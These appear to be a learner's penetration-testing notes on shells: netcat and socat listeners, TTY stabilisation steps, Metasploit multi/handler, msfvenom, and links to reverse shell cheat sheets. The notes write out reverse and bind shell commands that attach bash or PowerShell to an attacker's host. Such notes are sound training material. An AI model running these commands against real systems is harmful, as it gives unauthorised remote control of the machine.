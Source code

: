## what is shell

shell is what we use to interface with command line environment (cli) eg : bash or sh in linux, cmd.exe or powershell in windows.

## Type of shells

**Reverse shell**
when the target is forced to execute code that connects back to your computer. good way to bypass firewall. however you need to configure your own network to accept the shell. 

**Blind shell**
when the code executed on the target is used to start a listener attached to a shell directly on the target.


## Tools

### netcat
perform all kinds of network interactions. netcat shells are very unstable but we can improve it.

Reverse : `nc -nvlp port`
blind : `nc target_ip port`

*Stabilise shells 1*
- first use Python to spawn a better featured bash shell
`python -c 'import pty;pty.spawn("/binbash")'`

- second get access to term cmd (eg : `clear`) 
`export TERM=screen`

- third backgraound shell : `ctrl+z`

- next turn off our own terminal echo and forground the shell.
`stty raw -echo; fg`

(dont forgot `stty -a` then add rows and columns on target shell `stty rows <number>`)

*stabilise shell 2*
rlwrap is a program which gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell;

`rlwrap nc -lvnp <port>`

then use step 3 and 4 in above steps.

### socat
netcat on steroid. socat shells are stable but syntax is difficult and also `nc` is pre-installed on most of linux. this is not case with socat.

**Reverse shell**
`socat TCP-L:<port> -`

On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (the pipes option force powershell or cmd.exe to use Unix style standard input and output.)

On Linux we would use this cmd to connect back :
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind shells**

Linux Target : `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows Target : `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Attacking machine : `socat TCP:<TARGET-IP>:<TARGET-PORT> -`



### Metasploit -- multi/handler
The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. 

### msfvenome
part of msf framework but shipped as separate tool. Used to generate payloads.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


